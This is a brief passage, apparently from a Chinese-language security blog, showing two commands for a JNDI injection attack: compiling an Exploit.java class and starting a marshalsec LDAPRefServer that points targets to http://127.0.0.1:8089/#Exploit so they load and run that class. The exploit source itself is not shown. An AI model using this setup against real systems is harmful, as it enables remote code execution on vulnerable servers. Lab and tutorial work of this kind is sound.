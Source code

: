 # 编译Exploit

```
/Library/Java/JavaVirtualMachines/jdk1.8.0_112.jdk/Contents/Home/bin/javac Exploit.java
```

# 启动Ldap服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8089/#Exploit 
```



![](https://img-blog.csdnimg.cn/20200420220434230.jpeg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzMxNDgxMTg3,size_16,color_FFFFFF,t_70)
